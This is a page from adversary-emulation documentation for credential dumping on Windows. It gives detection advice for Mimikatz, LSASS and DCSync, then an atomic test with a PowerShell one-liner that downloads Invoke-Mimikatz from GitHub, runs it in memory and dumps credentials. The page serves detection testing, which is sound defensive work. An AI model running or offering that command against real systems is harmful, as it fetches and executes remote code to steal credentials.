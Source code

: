 On Windows 8.1 and Windows Server 2012 R2, monitor Windows Logs for LSASS.exe creation to verify that LSASS started as a protected process.

Monitor processes and command-line arguments for program execution that may be indicative of credential dumping. Remote access tools may contain built-in features or incorporate existing tools like Mimikatz. PowerShell scripts also exist that contain credential dumping functionality, such as PowerSploit's Invoke-Mimikatz module, (Citation: Powersploit) which may require additional logging features to be configured in the operating system to collect necessary information for analysis.

Monitor domain controller logs for replication requests and other unscheduled activity possibly associated with DCSync. (Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) Note: Domain controllers may not log replication requests originating from the default domain controller account. (Citation: Harmj0y DCSync Sept 2015). Also monitor for network protocols  (Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft NRPC Dec 2017) and other replication requests (Citation: Microsoft SAMR) from IPs not associated with known domain controllers. (Citation: AdSecurity DCSync Sept 2015)

Platforms: Windows

Data Sources: API monitoring, Process command-line parameters, Process monitoring, PowerShell logs

Permissions Required: Administrator, SYSTEM

Contributors: Vincent Le Toux, Ed Williams, Trustwave, SpiderLabs</blockquote>

## Atomic Tests

- [Atomic Test #1 - Powershell Mimikatz](#atomic-test-1---powershell-mimikatz)

- [Atomic Test #2 - Gsecdump](#atomic-test-2---gsecdump)

- [Atomic Test #3 - Windows Credential Editor](#atomic-test-3---windows-credential-editor)

- [Atomic Test #4 - Registry dump of SAM, creds, and secrets](#atomic-test-4---registry-dump-of-sam-creds-and-secrets)


<br/>

## Atomic Test #1 - Powershell Mimikatz
Dumps Credentials via Powershell by invoking a remote mimikatz script

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | Url | https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1|

#### Run it with `powershell`!
```
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```
<br/>
<br/>
